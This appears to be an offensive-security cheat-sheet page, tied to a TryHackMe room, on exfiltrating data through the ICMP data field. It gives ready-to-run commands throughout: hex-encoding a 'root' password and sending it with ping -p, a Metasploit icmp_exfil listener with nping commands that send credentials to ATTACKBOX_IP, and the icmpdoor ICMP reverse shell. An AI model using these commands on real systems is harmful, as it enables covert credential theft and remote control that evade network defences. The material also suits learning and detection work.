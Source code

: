 # ICMP Exfiltration

## Theory

The Internet Control Message Protocol [ICMP](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol). It is a network layer protocol used to handle error reporting. 

### ICMP Data Section

On a high level, the ICMP packet's structure contains a Data section that can include strings or copies of other information, such as the IPv4 header, used for error messages. The following diagram shows the Data section, which is optional to use.  
We can leverage this section in order to exfiltrate datas.  

## Practice

{% tabs %}

{% tab title="Manualy" %}
We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.  
```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping MACHINE_IP -c 1 -p 726f6f743a7040737377307264210a

```
{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```  
  
On the target, we can now exfiltrate data.  
```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.  
  
On the victime machine:
```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKBOX_IP
```
  
On the attacking machine:
```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}
